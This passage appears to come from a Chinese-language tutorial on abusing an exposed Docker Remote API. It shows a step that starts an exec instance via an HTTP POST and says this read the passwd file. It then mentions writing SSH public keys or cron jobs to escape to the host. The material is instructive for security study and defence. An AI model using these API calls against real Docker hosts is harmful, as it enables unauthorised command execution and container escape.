 [![](assets/1708095739-5e48fbcb37e25dd12fdc07150bfcc705.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211520-ba153a64-e5c6-1.png)  
3、执行 exec 中的命令，成功读取 passwd 文件

```bash
POST /exec/<exec_id>/start HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json

{
 "Detach": false,
 "Tty": false
}
```

[![](assets/1708095739-e443bad820a6d1be1f9fd2ed2a2c19f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211540-c5d2aa26-e5c6-1.png)  
这种方式只是获取到了 docker 主机的命令执行权限，但是还无法逃逸到宿主机。因此还是需要写公钥或者计时任务进行逃逸
